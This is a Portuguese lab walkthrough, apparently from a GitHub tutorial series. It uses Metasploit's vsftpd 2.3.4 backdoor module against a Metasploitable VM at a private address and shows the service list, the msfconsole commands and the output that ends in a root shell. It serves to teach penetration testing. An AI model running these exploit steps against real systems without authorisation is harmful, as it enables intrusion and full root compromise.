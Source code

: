 # 02. Pós-exploração com METASPLOIT

Após realizar a etapa de exploração de serviços com o <i><b>NMAP</i></b> (leia <a href="01_exploracao_com_nmap.md">01. Exploração com <b>NMAP</b></a> para entender o fluxo de pensamento daqui), iremos tentar conseguir o acesso ao <i><b>shell/terminal</i></b> da nossa máquina de alguma forma.

Analisando o retorno que o <i><b>NMAP</i></b> nos trouxe, vemos que temos diversos serviços rodando na nossa máquina alvo. Fazendo uma listagem dos quais conseguimos reconhecer os serviços executados, temos:

- `FTP`, com o `vsftp`, na versão `2.3.4`, na porta `21`.
- `SSH`, com o `OpenSSH`, na versão `4.7p1`, na porta `22`.
- `TELNET`, com o `telnet (linux)`, na porta `23`.
- `SAMBA`, com o `smtpd`, na porta `25`.
- `DOMAIN`, com o `ISC BIND`, na versão `9.4.2`, na porta `53`.
- `HTTP`, com o `Apache httpd`, na versão `2.2.8`, na porta `80`.
- `RPCBIND`, na porta `111`.
- `SAMBA`, com o `Samba smbd`, no range de versão `3.x - 4.x`, na porta `139`.
- `SAMBA`, com o `Samba smbd`, no range de versão `3.x - 4.x`, na porta `445`.
- `SHELL`, com o `Netkit rshd`, na porta `514`.
- `JAVA-RMI`, com o `GNU Classpath grmiregistry`, na porta `1099`.
- `BINDSHELL`, com o `Metasploitable root shell`, na porta `1524`.
- `NFS`, no range de versão `2-4`, na porta `2049`.
- `FTP`, com o `ProFTPD`, na versão `1.3.1`, na porta `2121`.
- `MYSQL`, com o `MySQL`, na versão `5.0.51a-3ubuntu5`, na porta `3306`.
- `DISTCCD`, com o `distccd`, na versão `v1`, na porta `3632`.
- `POSTGRESQL`, com o `PostgreSQL DB`, no range de versão `8.3.0 - 8.3.7`, na porta `5432`.
- `X11`, na porta `6000`.
- `IRC`, com o `UnrealIRCd`, na porta `6667`.
- `IRC`, com o `UnrealIRCd`, na porta `6697`.
- `AJP13`, com o `Apache Jserv`, com o protocolo na versão `v1.3`, na porta `8009`.
- `HTTP`, com o `Apache Tomcat/Coyote JSP engine`, na versão `1.1`, na porta `8180`.
- `DRB`, com o `Ruby DRb RMI`, na porta `8787`.
- `NLOCKMGR`, na porta `38718`.
- `JAVA-RMI`, com o `GNU Classpath grmiregistry`, na porta `38811`.
- `MOUNTD`, na porta `38909`.
- `STATUS`, na porta `55674`.

Rapaz, quanto serviço rodando junto em uma máquina. <b>Mas isso não será impeditivo para <i>MIM</i>.</b>

Para darmos o nosso primeiro passo, vamos usar uma ferramenta chamada <i><b>Metasploit</b></i>.

O <i><b>Metasploit</b></i> é uma ferramenta <i><b>open-source</b></i> de uso em <i><b>terminal/console</b></i> com a finalidade de realizar testes de <i><b>penetração/intrusão</b></i> e <i><b>exploração de vulnerabilidades</b></i> de serviços que estejam em execução em uma máquina. É uma ferramenta extremamente fácil e rápida de utilizar, simplificando bastante até o desenvolvimento, teste e a execução de <i><b>exploits</b></i>. Contém agregado a ele uma gama <i><b>IMENSA</b></i> de vulnerabilidades já conhecidas e exploradas pela comunidade de <i><b>cybersegurança</b></i>.

Enfim - explicação feita, vamos começar!

Abrindo o <i><b>CLI</b></i> do <i><b>Metasploit</b></i> com o comando:

`$ msfconsole`

E logo após executar o boot do programa, resolvo procurar pelo primeiro serviço da lista que o <i><b>NMAP</b></i> me entregou:

`msf > search vsftpd`

E então, <b>BINGO</b>! Nos é retornado uma pequena lista que tem um <i><b>exploit</b></i> no qual poderemos utilizar na nossa máquina alvo:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Mavailha - agora vamos selecionar o <i><b>exploit</b></i> de número <i><b>1</b></i> com o comando abaixo:

`msf > use 1`

Selecionado o <i><b>exploit</b></i> que iremos usar, temos de configurar-lo para ele realizar os testes e comprometer o serviço alvo desejado. Vamos ver quais são as opções a configurar:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5h, sapni, http, socks4, socks5
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

Os valores obrigatórios que o <i><b>exploit</b></i> cobra são: `RHOSTS` e `RPORT`. O valor `RPORT` já está configurado corretamente, então vamos configurar o valor de `RHOSTS`:

`msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102`

Maravilha. Com tudo pronto, agora é só executar o <i><b>exploit</b></i> e se preparar para o retorno dele:

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[+] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.102:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.1:35945 -> 192.168.56.102:6200) at 2025-10-18 15:49:15 -0300

whoami
root
```

<b>PERFEITO DEMAIS!</b> O <i><b>exploit</b></i> funcionou e já direto com acesso ao usuário <i><b>root</b></i> (superusuário, o usuário de nível mais alto no sistema do linux).

Agora o céu é o limite. E vamos com tudo para nossa próxima etapa! - <a href="/steps/03_ganhando_acesso_direto_ao_ssh.md">03. Ganhando acesso direto ao <b>SSH</b></a>